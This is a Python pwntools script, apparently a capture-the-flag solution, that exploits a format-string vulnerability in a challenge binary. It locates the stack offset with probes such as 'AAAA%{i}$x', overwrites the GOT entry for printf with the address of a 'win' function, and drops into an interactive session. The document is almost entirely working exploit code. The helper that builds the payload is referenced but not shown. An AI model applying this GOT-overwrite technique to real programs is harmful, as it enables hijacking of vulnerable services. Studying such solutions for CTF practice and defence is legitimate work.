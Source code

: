 ```python
def connect_binary():
    global P, E, TARGET, WIN
    
    with context.local(log_level='error'):
        if args.REMOTE:
            P = remote(HOST, PORT)
        elif args.GDB:
            P = gdb.debug([f"{__file__.replace('_sol.py', '')}"], gdbscript=gdbscript)
        else:
            P = process(f"{__file__.replace('_sol.py', '')}")

        E = ELF(f"{__file__.replace('_sol.py', '')}")
    
        TARGET = E.got['printf']
        WIN = E.symbols['win']              # 0x 00 40 11 d6

def say(payload):
    P.recvuntil(b"You say:")
    P.sendline(payload)

def exploit():
    offset = 5 # find_offset(b"You say:")
    log.info(f"Using offset: {offset}")

    connect_binary()
    
    log.info(f"TARGET function address: {hex(TARGET)}")
    log.info(f"WIN function address: {hex(WIN)}")

    payload = build_format_string(TARGET, WIN, start_byte=offset+9) # add 9 to account for the initial input of the buffer before addresses
    say(payload)
    
    log.info(f"Payload sent: {payload}")
    P.interactive()

def find_offset(after = b':', option = 1):
    for i in range(1, 20):
        connect_binary()

        if option == 1:
            P.sendlineafter(after, f'AAAA%{i}$x'.encode())
            output = P.recvline(timeout=0.5).strip().decode('utf-8')
        else:
            P.sendlineafter(after, 'AAAABBBB %{}$p'.format(i)) # replace %x with %s to find the actual values
            P.recvuntil('AAAABBBB ')
            print('{}: {}'.format(i, P.recvline(timeout=0.5).strip().decode('utf-8')))

        context.log_level = 'error'
        P.close()
        context.log_level = 'info'

        if option == 1 and '41414141' in output:
            return i

```
